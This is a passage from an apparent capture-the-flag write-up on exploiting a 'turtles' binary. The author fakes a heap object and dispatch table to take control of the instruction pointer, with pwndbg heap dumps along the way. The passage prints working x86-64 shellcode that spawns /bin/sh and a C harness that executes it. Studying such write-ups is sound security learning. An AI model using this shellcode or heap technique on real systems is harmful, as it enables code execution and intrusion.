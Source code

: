 ```code
0x1f0a970:	0x0000000000000000	0x0000000000000021
```

Finally I got this output:
`2018-09-19 07:47:41.740 turtles[19708:19708] I am a turtle.`

Great!! I got the program to do what it's supposed to. Now I could start doing something interesting.

## Getting control of the instruction pointer

Next I wanted to step in and view what happens when the `turtle_say` function gets called. Up to now I had been dealing with what looks in retrospect like a broken part of the problem, unintended by its developers. At first I thought the next step was just to jump to some shellcode in the heap and execute it, bu the heap isn't executable. So snippets of the heap in the next stage of this write-up will include some (unnecessary) shell code.

I used some x86-64 shellcode from [shellstorm](http://shell-storm.org/shellcode/files/shellcode-905.php):

```code
\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf"
    "\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05
```
That's 29 bytes, which I tested with a simple C program:

```code
#include <unistd.h>

char * shellcode = "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf"
    "\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05";
int main(void)
{
  (*(void(*)()) shellcode)();
	return 0;
}
```

Next I produced a fake turtle class in the heap as well as a fake message dispatch table (`dtable`), in order to call a fake method and get control of the instruction pointer. I didn't need all the elements of the turtle class and dispatch table, so I only used the fields that were absolutely necessary in order to have enough free space on the heap to work with.

```code
pwndbg> x /26xg 0x19768b0
0x19768b0:	0x00000000006014c0	0x0000000000000000
0x19768c0:	0x0000000000000000	0x0000000000000000
0x19768d0:	0x0000000000000000	0x0000000000000000
0x19768e0:	0x0000000000000000	0x0000000000000000
0x19768f0:	0x0000000000000000	0x0000000000000000
0x1976900:	0x0000000000000000	0x0000000000000000
0x1976910:	0x0000000000000000	0x0000000000000021
0x1976920:	0x0000000000000000	0x00000000019a3230
0x1976930:	0x0000000000000000	0x0000000000000000
0x1976940:	0x0000000000000000	0x0000000000000000
0x1976950:	0x0000000000000000	0x0000000000000000
0x1976960:	0x0000000000000000	0x0000000000000000
0x1976970:	0x0000000000000000	0x0000000000000021
```
This would get the turtle to speak but throw a seg fault when the turtle is freed. I noticed that I could free the turtle if I didn't overwrite the chunk size for the chunk with the turtle pointer, at the cost of eight bytes.
